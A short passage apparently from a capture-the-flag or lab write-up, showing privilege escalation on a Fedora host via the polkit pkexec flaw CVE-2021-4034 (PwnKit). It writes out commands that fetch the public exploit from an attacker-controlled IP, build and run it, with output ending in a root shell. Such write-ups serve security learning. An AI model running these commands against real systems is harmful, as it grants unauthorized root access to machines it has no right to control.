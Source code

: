 ```bash
Build Host  : buildhw-x86-14.iad2.fedoraproject.org
Packager    : Fedora Project
Vendor      : Fedora Project
URL         : http://www.freedesktop.org/wiki/Software/polkit
Bug URL     : https://bugz.fedoraproject.org/polkit
Summary     : An authorization framework
Description :
polkit is a toolkit for defining and handling authorizations.  It is
used for allowing unprivileged processes to speak to privileged
processes.
-bash-5.1$ pkexec --version
pkexec version 0.117
```

polkit with suid bit is vulnerable to [CVE-2021-4034](https://github.com/berdav/CVE-2021-4034) on the box.

```bash
└─$ curl -LOs https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.zip
---
-bash-5.1$ curl 10.0.2.15/main.zip -Os && unzip -q main.zip && cd CVE-2021-4034-main && make && ./cve-2021-4034

cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.

sh-5.1# id
uid=0(root) gid=0(root) groups=0(root),1001(magellan) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```